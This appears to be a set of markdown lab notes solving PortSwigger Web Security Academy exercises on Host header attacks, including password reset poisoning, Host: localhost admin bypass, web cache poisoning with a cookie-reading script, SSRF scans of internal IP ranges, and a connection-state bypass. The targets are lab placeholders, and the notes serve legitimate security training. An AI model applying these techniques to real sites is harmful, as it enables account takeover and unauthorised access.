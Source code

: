 ## Basic password reset poisoning

1) Investigate (do) full "Forgot your password?" functionality to your own account.
2) Notice that the POST /forgot-password request is used to trigger the password reset email. This contains the username whose password is being reset as a body parameter.
3) change the Host header to your exploit server's domain name (YOUR-EXPLOIT-SERVER-ID.exploit-server.net) and change the username parameter to carlos. Send the request.
4) Go to your exploit server and open the access log. You will see a request for GET /forgot-password with the temp-forgot-password-token parameter containing Carlos's password reset token.
5) Go to your email client and copy the genuine password reset URL from your first email. Visit this URL in the browser, but replace your reset token with the one you obtained from the access log.

## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.


## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.

## Web cache poisoning via ambiguous requests (x-Cache-hit)

1) Exploit server -> and create a file at `/resources/js/tracking.js` containing the payload `alert(document.cookie)`.
2)
   ```
    GET /?cb=123 HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    ```

## Routing-based SSRF

1) Set `Host: 192.168.0.§0§`; Payload -> numbers from 0 to 255 with step 1.
2) `GET /admin/delete?csrf=QCT5OmPeAAPnyTKyETt29LszLL7CbPop&username=carlos`.
3) Copy the session cookie from the Set-Cookie header in the displayed response and add it to your request.
4) Right-click on your request and select Change request method. Burp will convert it to a `POST` request. Send.

## SSRF via flawed request parsing

1) Observe that you can also access the home page by supplying an absolute URL in the request line as follows:
`GET https://YOUR-LAB-ID.web-security-academy.net/`.
2) It means that its possible now to modify header:
   
   ```
   GET https://YOUR-LAB-ID.web-security-academy.net/
   Host: BURP-COLLABORATOR-SUBDOMAIN
   ```
3)  Go to Intruder and deselect Update Host header to match target. Use the Host header to scan the IP range 192.168.0.0/24.
4)  In Burp Repeater, append /admin to the absolute URL in the request line and send the request. Not you have access.

## Host validation bypass via connection state attack

1) Take `GET /` Request:
   Change the path to /admin.
   Change Host header to 192.168.0.1.
2) you are simply redirected to the homepage. Duplicate the tab, then add both tabs to a new group.
3) In the first tab:
   Change the path back to /.
   Change the Host header back to `YOUR-LAB-ID.h1-web-security-academy.net`.

4) Send `group in sequence (single connection)`. Change the Connection header to keep-alive.
